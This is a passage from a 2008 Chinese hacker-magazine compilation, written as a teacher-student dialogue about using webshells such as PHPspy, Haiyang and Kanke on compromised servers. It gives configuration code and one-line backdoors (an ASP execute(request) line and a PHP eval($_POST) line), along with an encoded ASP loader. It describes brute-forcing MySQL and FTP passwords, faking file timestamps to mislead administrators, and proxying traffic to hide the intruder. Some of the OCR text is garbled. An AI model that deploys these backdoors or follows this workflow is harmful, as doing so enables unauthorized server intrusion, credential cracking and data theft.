

## 2008 合订本上卷

# 菜鸟学堂







还有桂林老兵的 ASP 木马上传页面也跟海阳马有很大的不同（图 33），不过其原理都是一样的。老兵的数据库操作模块很好很强大（图 34），支持 ACCESS、MSSQL、MYSQL、DSN 等连接方式，让你能够连接大多数的数据库。
可能你已经发觉海阳木马只能查看数据库，但是不能对数据库进行修改，然后老兵是可以针对数据库进行编辑的（图 35），比如显示数据、添加数据、删除数据、修改数据、建数据表、删数据表、添加字段、删除字段、完全显示等功能。相信有了这样棒的 ASP 木马一定能在入侵过程中事半功倍。至于其余的几个地方就跟海阳木马差不多了，在这里我就不多费口舌进行解析了。

在介绍完两款有名的 ASP 木马后，我在啰嗦几句。木马的功能是一个基础条件，但不是最重要的，那么什么才是最重要的呢？那就是思路，也就是说在入侵中要有灵活的大脑做技术支持，否则只是生搬硬套，毫无用处。
（文章中涉及到的工具海阳 ASP 木马，dbm6、200Plus 已经收录在光盘中）

## 菜鸟师徒行 WebShell 大接触(下)

周五杰（阿布）

> “陶艾青，你愿不愿意为我穿上天国的嫁衣？……”

天真的燕妹妹坐在电脑旁，眼睛直愣愣的盯着屏幕，脑海中不时冒出各种稀奇古怪的想法。“如果我的男朋友也能这样向自己表白，那……”
滴滴滴！右下角的 QQ 小企鹅突然跳了起来，“是谁啊？真讨厌！难道不知道我有事吗？还来烦我！”没办法，既来之则安之……先看看是哪个讨厌鬼再把他臭骂一顿，以消心中之气，原来是臭阿布：“你个臭破布，干吗？惹我啊？”
阿布这时真是丈二和尚摸不着头脑，摸了摸额头上的汗问道：“这个，那个……我一向奉公守法，尽职尽责，似乎没有什么地方得罪您吧？我冤枉啊！”
“你冤？你有我冤吗，我才冤呢！我的未来没有了！”
阿布顿了顿，接道：“什么未来不未来的？你这不过的好好的吗？”同时脑中顿时浮现出一幅场景：燕妹妹躺在绝症病房里将所剩不多的丝丝秀发……想着想着一个不留神竟把绝症二字给说了出来。
燕妹妹顿时怒道：“你才得绝症呢，呸呸呸！病魔爷爷不要来找我啊！要找就找阿布吧，是他说的，不管我的事啊！阿弥陀佛 & 阿门阿门……”

阿布挠挠头说道：“不是绝症啊？那怎么回事哦？糊里糊涂的未来就没有了？都被你搞晕了，真是个糊涂的徒弟啊！”话锋一转，又继续说道：“虽说青出于蓝而胜于蓝，但连指甲盖的功力都没学到手，就敢对你师父怨言相向，好不懂规矩，还不从实招来！”
燕妹妹猛打一机灵，感觉全身像被火烧一样，看来阿布老师真的发怒了。又想到自己好不容易忽悠个老师愿意倾囊以授，可千万不能让他给跑了啊！赶紧一个 90 度的鞠躬，说道：“师父啊！我最最亲爱的师父啊！我怎么敢骂您呢？我实在是有苦难言啊！唉，还不是考试惹得祸！什么三级网络啊，四级英语啊！烦都烦死了，好不容易能看会儿电视剧从苦海中解脱一下，谁知你的 QQ 头像一跳，又重新回到了‘黑暗’中！”
“原来是这样子哦，念在你要考试的份上，就原谅你了！快考试了，还浸泡在这种虚幻的肥皂剧中，考试能才怪呢！”听到这儿，燕妹妹忽然想到，阿布老师给自己上课的时间到了，不看肥皂剧，学点技术总没有错吧，于是问道：“阿布老师，你这次教我些什么哦？还是 WEBSHELL 吗？”
阿布一看这小丫头开始转移话题，掐指一算也到上课的时间了，“没错！还是 WEBSHELL 的使用讲解，不过这次不讲 ASP

# 菜鸟学堂

2008 合订本上卷

的，而是讲一些其它运行平台的 WEBSHELL！

### PHP 类 WebShell

除了 ASP 平台的 WEBSHELL 外，就是 PHP 平台最为常见了，而且 PHP 平台的 WEBSHELL 在功能上与 ASP 平台的也有一些不同，这是因为 PHP 的独特性而导致的，毕竟 PHP 很好很强大嘛。在 PHP 平台下的 PHPspy 算是最棒的 WEBSHELL 了，它是由安全天使小组进行开发的，最新版本为 2008 版。我们介绍的是 2006 修改版，这个版本被加入了好多强大的功能，一直用着很顺手。跟 ASP 类的一样，在刚拿到 WEBSHELL 的代码时，需要修改代码中的一些参数，比如密码等等（图 1）。

```php
//<title>PHPspy 2006</title>
$admin['check'] = "1";  //1为需要验证，0为不需要验证
$admin['pass'] = "123456"; //登录密码
$admin['port'] = "21, 22, ..."; //端口
$admin['jumpsecond'] = "1"; //跳转秒数
$admin['alexa'] = "2"; //显示alexa排名，1为显示，2为关闭
$admin['ftpport'] = "21"; //ftp连接端口
$retime = "No"; //是否允许phpspy本身自动修改编辑后文件的时间为建立时间(yes/no)
$cmd = "cmd.exe"; //cmd的位置
$shell = "cmd.exe";
?>
```



图 1

$admin['check'] = "1"；解释如下：是否需要密码验证，1 为需要验证，其它数字为直接进入。如果将此项设置为 0 的话，下面的密码选项则无效。

$admin['pass'] = "123456"；解释如下：如果需要密码验证，请修改登录密码，一定要更改原始密码，防止被别人顺手牵羊。

$admin['port'] = "、21, 22, 23, 25, 53, 69, 79, 80, 110, 119, 143, 139, 389, 443, 1080, 1433, 2401, 3128, 3306, 3389, 4899, 5432, 5631, 5900, 6000, 7000, 8000, 8080, 43958"；解释如下：默认端口表。这款 WEBSHELL 具有端口扫描功能。可以添加不常见的端口号。

$admin['jumpsecond'] = "1"；解释如下：跳转用的秒。这款 WEBSHELL 具有暴力破解功能，比如服务器开放的 FTP 帐号，MYSQL 帐号等。可以根据服务器的响应速度来适当调节这个值的大小即可。

$admin['alexa'] = "2"；解释如下：是否显示 alexa 排名。这款 WEBSHELL 具有显示网站排名功能。此值设置为 1 的时候为开放，2 的时候为关闭。

$admin['ftpport'] = "21"；解释如下：Ftp 破解用的连接端口。自定义服务器开放的 FTP 端口。

$retime = "No"；解释如下：是否允许 phpspy 本身自动修改编辑后文件的时间为建立时间（yes/no）。这款 WEBSHELL 具有功能设置功能，此项可以设置是否改变编辑后的文件时间，很多管理员是按照时间顺序来查找 WEBSHELL 的，用此功能即可迷惑管理员。

$cmd = "cmd.exe"；解释如下：默认 cmd.exe 的位置，proc_open 函数要使用的，Linux 系统请对应修改（假设是 winnt 系统在程序里依然可以指定）。修改完这些参数后，将 WEBSHELL 上传到目标网站中即可。

#### 1、主界面

直接输入 WEBSHELL 的 URL 地址即可进入登录界面（图 2），输入密码后就可以进入主界面了（图 3），主界面最上面一排显示了当前网站的 IP，网站排名，当前时间和客户端 IP 等信息，再往下一部分就是这款 WEBSHELL 的各个功能菜单了，不错吧，功能很全吧？


图 2


图 3


图 4

WEBSHELL 会自动进入“SHELL 目录”功能项，并且显示除了当前程序路径，当前目录等信息，还可以使用上传文件，新建文件，新建目录对文件进行管理。再往下就是当前目录的文件及其文件夹列表了，可以对文件进行下载，编辑，删除，改名，设置创建时间等操作，还可以选中多个文件或者文件夹，然后点击“选中打包下载或本地保存”，就可以将选中的这些文件或者文件夹统统打包并下载。

#### 2、环境变量

选择“环境变量”（图4），就可以查看当前服务器的一些配置参数，比如当前PHP的进程用户、服务器操作系统、服务器时间、域名、IP等等，还有PHP运行的一些运行参数，对于我们了解服务器有着不可或缺的帮助。

#### 3、在线代理

选择“在线代理”（图5），即可把WEBSHELL当作一个WEB代理软件使用，这样访问过的站点留下的都是服务器的脚印，就不会暴露我们自己了。如果是访问服务器本身的网站时那就会留下127.0.0.1这样的脚印。


#### 4、注册表操作

选择“注册表操作”（图6），即可针对注册表进行查询、添加、删除等操作，当然前提必须是有足够大的权限才可以进行操作的。例如：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp\PortNumber，则是查询当前服务器的终端端口注册表键值。


#### 5、PHPINFO

选择“PHPINFO”（图7），这个页面返回了PHP的所有信息。包括了PHP的编译选项及扩充配置、PHP版本、服务器信息及环境变量、PHP环境变量、操作系统版本信息、路径及环境变量配置、HTTP标头及版权宣告。

#### 6、WEBSHELL

选择“WEBSHELL”（图8），这个功能就是执行命令，功能和ASP平台的一样。只是默认情况下PHP的权限比较高尚可。同时还提供了多个执行函数供大家选择，可以逐个测试看看（图9）。

注意，如果输出结果不完全，建议把输出结果写入文件，这样可以得到全部内容。proc_open函数假设不是默认的Windows系统请自行设置使用，自行修改的话记得最后要退出，否则会在主机上留下一个未结束的进程。


#### 7、杂项破解

选择“杂项破解”（图10），进入破解及其杂项的功能界面。功能之一：暴力破解MYSQL或FTP密码，既然是暴力破解就需要字典，此字典就需要大家本地生成然后再上传到服务器上，记住保存的目录。如果破解服务器本机的MYSQL帐号就在HOST里面输入“localhost”，帐号则是你想要破解的帐号，字典就填写上传的字典的绝对路径或者相对路径，一次性试探


# 菜鸟学堂 2008 合订本上卷

不要超过字典中密码的总长度哦，然后点击“crack”即可，如果字典中有匹配的密码即可自动显示出来（图11）。


| 127.0.0.1 | 网络接口: 默认关闭 | 2008年03月13 | | | | |
| --- | --- | --- | --- | --- | --- | --- |
| Shell目录 | 环境变量 | 在线代理 | 注册表操作 | PHPINFO | WebShell | 杂项破解 |
| Http文件下载 | 文件查找 | 执行php脚本 | 执行SQL语句 | Func反弹Shell | MyS | |

程序路径: C:/AppServ/www
当前目录(可写,0777): C:/AppServ/www
跳转目录: [____________________] [确定] [支持绝对路径和相对路径]
上传文件到当前目录: [____________________] [Browse...] [确定]
新建文件在当前目录: [____________________] [确定]
新建目录在当前目录: [____________________] [确定]
获取root的密码为fuckme

| 文件 | 创建日期 | 最后修改 |
| --- | --- | --- |
| [.] | 2008-03-13 13:57:44 | 2008-03-13 13:57:44 |
| [..] | | |
| [AppServ] | 2008-03-13 13:57:44 | 2008-03-13 13:57:44 |


功能之二：端口扫描功能，还记得一开始在代码中设置的扫描端口的参数吗？这里就用到了，和一般的端口扫描器用法一样，输入HOST需要扫描的主机IP，然后填好端口号即可进行扫描，扫描完毕后会自动显示结果（图12）。


功能之三：主机名 To IP转换，假设你获取到内网一个计算机名，就可以使用这个功能找到它的IP，并且内&外网有效。

#### 8、MYSQL上传下载

选择“MYSQL上传下载”（图13），即可利用得知的MYSQL帐号进行文件的读写。
功能之一：使用MYSQL上传文件，输入MYSQL数据库的主机地址（HOST）、数据库帐号（USER）及其密码（PASS）、这个帐号可以操作的数据库名字（DB）、需要上传到服务器的某个目录中（UPTO）、上传后的文件名（如果留空则为原文件名），然后选择任意一个文件后，点击“UPLOAD”即可。

目录[____________________][确定] [如果路径必须权限和制定好路径]
文件所在目录名称: [____________________][确定]
文件名在当前目录: [____________________][确定]
文件在当前目录: [____________________][确定]

> [Sqliv] [S4T] [Zldq]
声明:请勿使用本程序从事非法行为,否则后果自负!
Mysql上传文件 [关闭]
你可以使用本功能把一些大马传到有Mysql数据库的服务器上
利用Mysql的select into outfile 的功能或者是用创建表然后导出木马的方法
Host: localhost   User: root   PASS: fuckme   DB: mysql   UPTO: C:\
上传的文件名: [____________________] 选择文件: [C:\AppServ\www\1.php] [Browse...] [upload]
(如果没有填写上传的文件名则以上传后上文件名则为原文件名..

Mysql下载文件 [关闭]
利用Mysql的load_file()函数来读取服务器上的文件或者是用sql注入的方法
Host: localhost   User: root   PASS: fuckme   文件: [C:\AppServ\www\1.php] [download]
(如果没有填写路径则默认下载MySql目录下的文件,在Windows上就是安装目录了..
Windows路径请注意MySQL的5.x和4.x版本,因为5.x的安装路径和4.x的不同...)


功能之一：使用MYSQL下载文件，输入MYSQL数据库主机地址、用户名、密码、需要下载文件的绝对路径，然后点击“DOWNLOAD”即可。只要MYSQL能够读取到就可以下载，所以能够下载到Webshell不能读取的文件或数据库服务器文件。如果文件大的话，还可以考虑“启用压缩”，将需要下载的文件打包到RAR，然后下载。

> [Sqliv] [S4T] [Zldq]
声明:请勿使用本程序从事非法行为,否则后果自负!
设置部分 [返回]
程序的基本设置部分.
站点设置名称设置: Yes: C  No: C
帐号: 123456    登陆密码设置: [____________________]
默认帐号: 123456    连接密码: [____________________]
是否使用验证: 使用 C 不使用 C

更改了密码的话必须要重新登陆才可以进入webshell.


#### 9、设置部分

选择“设置部分”（图14），这里的参数设置是和一开始的参数修改的效果是一样的。如果修改了密码的话必须要重新登录才可以进入WEBSHELL。

#### 10、HTTP文件下载

选择“HTTP文件下载”（图15），此功能直接通过服务器进行下载，如果上传文件不是很方便的话，可以考虑这个方法。

#### 11、文件查找

选择“文件查找”（图16），此功能查找一个目录下的文件里哪些文件包含着关键词，和我们普通的WINDOWS搜索差不多，当我们需要在网站文件中寻找一个变量或者字符的时候特别好用。还可以计算关键字在其文件中的行号，还可以自定义读取关键字前后几个字符。输入“文件位置”和查找的关键字即可进行查找，查找结果如下（图17）。

> [Sqliv] [S4T] [Zldq]
声明:请勿使用本程序从事非法行为,否则后果自负!
http文件下载模式 [返回]
你可以使用本功能把一些小工具以http方式下载到此服务器
文件位置: http://54abu.cn/abuar
下载到: [./abuar] [下载]

注意:假设文件太大将无法下载下来而且影响执行速度.


> [Sqliv] [S4T] [Zldq]
声明:请勿使用本程序从事非法行为,否则后果自负!
文件查找 [返回]
你可以使用本功能查找一个目录下的文件里哪些文件包含有关键词
文件位置: [C:\AppServ\www] [____________________]
查找关键字: [abc] [____________________]
是否统计所在行(此功能和下面一个功能会影响执行速度,所以默认关闭)
适当读取: 读取关键字前 0 个字符 到关键字后 10 个字符 ... [开始查找文件]

请求太大目录了,慢慢浏览慢慢找好不啦,假设没选定计算行速度会很慢,显示所有行(总共多少行)


## 2008 合订本上卷

# 菜鸟学堂


#### 12、执行 PHP 脚本

选择“执行 PHP 脚本”（图 18），你还感觉这个 WEBSHELL 不够强大？那好，我给你一个舞台，你自己写出 PHP 代码来，我给你执行。这个功能就是为了以后进行功能扩展的时候而准备的，只需要在文本框中输入想执行的 PHP 脚本，然后点击确定就行。


#### 13、执行 SQL 语句

选择“执行 SQL 语句”（图 19），此功能可以直接使用 SQL 语句操作 MYSQL 数据库，输入服务器的地址、用户名、密码和需要连接的数据库后，点击“连接”按钮即可和数据库建立连接，然后再在文本框中输入要执行的 SQL 语句即可。


#### 14、MYSQL 备份

选择“MYSQL 备份”（图 20），此功能可以简简单单的把目标数据库备份到远程服务器或者本地计算机上，输入服务器地址、用户名、密码和需要备份的数据库后，点击“连接”后会自动显示出当前数据库中的各个表的信息，想备份哪个表就直接点击哪个表即可，并且支持使用 CTRL 进行多选。备份方式也有两种，一种是备份到远程服务器上的一个目录中，一种是直接下载到本地，适合数据量较小的数据库。

阿布对早已犯困的燕妹妹说到：“O K ！已经讲完了 PHPSPY 了，很强大吧？”只见燕妹妹开始掰着手指头数啊数，忽然抬头问道：“布哥，好像还有一些功能没有介绍哦？”阿布喝了口冰水，说道：“的确，因为那几个功能都是提权的时候需要使用的，所以没有讲解。现在我们讲解的是 WEBSHELL 的使用，以后我会再给你详细的讲解这几个在提权中使用的功能的！”


燕妹妹若有所思的点了点头，心里想来自己已经把 WEBSHELL 掌握了。这时阿布似乎已经看穿了燕妹妹的心思，说道：“小鬼，我还没讲完呢！我刚刚刚刚介绍了最常见的 2 个平台的 WEBSHELL 而已，其它平台的 WEBSHELL 还有很多呢。不过功能上都差不多，我也就不再啰啰嗦嗦了，只要掌握了 ASP 和 PHP 平台下 WEBSHELL 的使用，其余的就不在话下了。”燕妹妹小手拖着下巴点点头，阿布又补充道：“不过，还有一些 WEBSHELL 很另类的哦，比如一句话木马、小助手等等。”

### 非典型类 WebShell

#### 1、网站小助手

网站小助手就是一个简单的能够生成文件的动态脚本程序（图 21），只需要在文本框中输入想生成文件的代码，然后再输入想保存的绝对路径及其文件名，然后点击“保存”即可生成你想要的任何文件，俗称小马。


#### 2、一句话木马

一句话木马，就是指 WEBSHELL 里面的代码只需要一句话就行，例如<%=execute(request("cmd"))%>，就是这么短！那么它怎样运行呢？它会接收通过 WEB 传递上来的 cmd 变量里面的代码，然后执行，所以只需要把这一点代码放在服务器上就可以了。

成功上传后我们在本地电脑中打开一句话木马的连接客户端（图 22），修改其中的蓝色加亮部分，因为这个变量是对接服务器上一句话的凭证，也称作一句话木马的密码。在下面输入想生成的 WEBSHELL 代码，然后点击“GO”即可，成功后会自动转向生成的文件。


#### 3、砍客 ASP 木马

砍客 ASP 木马可以不上传代码就进行控制，直接在内存中运行。服务器中只保留着一句话木马的一小点代码，最大程度的增强了 WEBSHELL 效率，先来见识一下砍客的代码（图23）。

```
<%@ LANGUAGE = VBScript.Encode%
<%#@~^AgAAAA==-tCSs!XmG+6(EW
bmmG+{d2YAAA==^#~@%>
<%If Request("cnxhacker")<>"" Then Session("cnxhacker")=Request("cnxhacker")
If Session("b")<>"" then execute Session("b")%>
```


其中的“cnxhacker”就是连接密码，只修改这个值就可以了，上传后获得 URL 地址。然后打开 WEB 版的连接页面 http://www.cnxhacker.com/online/cs/cs.asp（图24），输入服务端的网址和连接密码即可，连接成功后会自动的把整个运行所需要代码传送到服务器的内存中运行，并会自动转向 WEBSHELL 的主界面（图25）。在后续的操作中就可以向其它的 WEBSHELL 一样了，我也就不仔细介绍了。


#### 4、ASP+PHP 管理器

前面介绍了 ASP 版本的一句话木马，其实 PHP 也有一句话木马的<?php eval($_POST[cmd]);?>，是不是和 ASP 版本的有。其中的 CMD 就是连接密码。

这个管理器是 Lanker 编写的（图26），不仅可以连接 ASP，还可以用来连接 PHP。输入一句话木马的地址和连接密码，然后在左侧选择一个功能，不同的功能对应着不同的动态代码。这里我以“环境变量”为代表进行演示（图27）。基本上其它 WEBSHELL 所拥有的工具它都有，使用起来相当的方便。


#### 5、海阳 C/S 木马

最后不得不提海阳的 C/S 木马，它的设计思想也是一句话木马原理。运行海阳2006 所自带的 2006X.exe（图28），按“打开”选择木马文件，然后按转换，默认会生成一个.htm 的客户端执行文件，打开这个文件后（图29），填上木马服务端地址及访问密码，按“提交”后开始上传木马程序内容到达服务器内存，提交成功后就可以像使用传统版本的海阳木马一样使用它了，同样很方便的（图30）。

服务端的生成也由这个程序完成，先填写好服务端密码，然后按“生成服务端页面”，选择好存放路径及文件名，记住密码，要用的时候把这个文件传到服务器上就可以了。

## 2008 合订本上卷

# 菜鸟学堂


图 28

阿布长舒了一口气，再转眼去看燕妹妹，没想到燕妹妹已经去找周公下棋去了，我倒！也太尊重我这个老师了吧！正当气的胡子竖起来的时候，忽然听到燕妹妹从嘴里冒出这么一句：“对等网通常是由很少几台计算机组成的工作组……”阿布一叹，唉！这小丫头，看来真的够累的，那就先不收拾你了，如果再 有下次，我砍！我砍！我砍砍砍！……
（文章中涉及到的 PHPsy2006 修改版、网站小助手、砍客 ASP 木马、Lanker 微型 PHP+ASP 管理器、海阳 C/S 木马等已经收录于光盘中）


图 29


图 30

## 菜鸟师徒行
跟我学服务器提权(上)

周五杰（阿布）

“盼啊，盼啊！五一短假终于要来临了，趁着三天的假期出去放松下应该不错哦。”燕妹妹正和同宿舍的姐妹们聊着，一个姐妹插嘴道：“关键是去哪里玩呢？”燕妹妹突然拍了一下桌子高声喊道：“百度知道！”于是在百度搜索了起来，经过 6 个姐妹的齐心协力，终于做出如下决定：泰山顶上看日出。

就在这天，阿布躺在床上翻着“安全驾驶从这里开始”的驾照教材，心里想着五一放假怎么过呢？还是陪兄弟们在宿舍要 CS？于是问道：“哥几个，五一咱出去耍耍吧？”一个兄弟从阵仗的枪声中探出头来，回答道：“对不住了，小哥儿！俺媳妇儿想去淄博的原山森林公园去看看，不能陪你了哦。”阿布顿时栽倒在好几天没叠的被子上，睡过去了。

